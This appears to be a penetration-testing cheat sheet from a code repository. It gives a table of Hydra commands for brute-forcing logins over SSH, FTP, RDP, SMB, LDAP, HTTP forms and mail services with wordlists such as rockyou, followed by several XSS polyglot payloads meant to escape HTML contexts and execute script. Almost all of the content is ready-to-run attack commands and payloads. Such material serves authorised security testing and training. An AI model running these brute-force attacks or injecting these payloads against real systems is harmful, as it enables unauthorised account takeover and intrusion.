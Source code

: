 Hydra Password Cracking Cheetsheet

The following table uses the $ip variable which can be set with the following command:  

`export ip <target-ip>`


| Command | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------|
| `hydra -P password-file.txt -v $ip snmp`                                                                                                    | Hydra brute force against SNMP                       |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`                                                                       | Hydra FTP known user and rockyou password list       |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`                                                                              | Hydra SSH using list of users and passwords          |
| `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`                                                                         | Hydra SSH using a known password and a username list |
| `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`                                                                                         | Hydra SSH Against Known username on port 22          |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`                                                                          | Hydra POP3 Brute Force                               |
| `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`                                                                                         | Hydra SMTP Brute Force                               |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`                                                                                 | Hydra attack http get 401 login with a dictionary    |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`                                                           | Hydra attack Windows Remote Desktop with rockyou     |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`                                                             | Hydra brute force SMB user with rockyou:             |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt http-form-post "/login.php:username=^USER^&password=^PASS^:Invalid Username"` | Hydra brute force a Wordpress admin login            
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f` | SMB Brute Forcing |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f` | LDAP Brute Forcing |

-----------------------------------------------------------------------------------------------------------------
# Polyglot payloads

### XSS polyglot

```js
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```
```js
'">*/--></title></style></textarea></script%0A><img src=x onerror=confirm(1)>
```
```js
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)// 
```
```js
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```
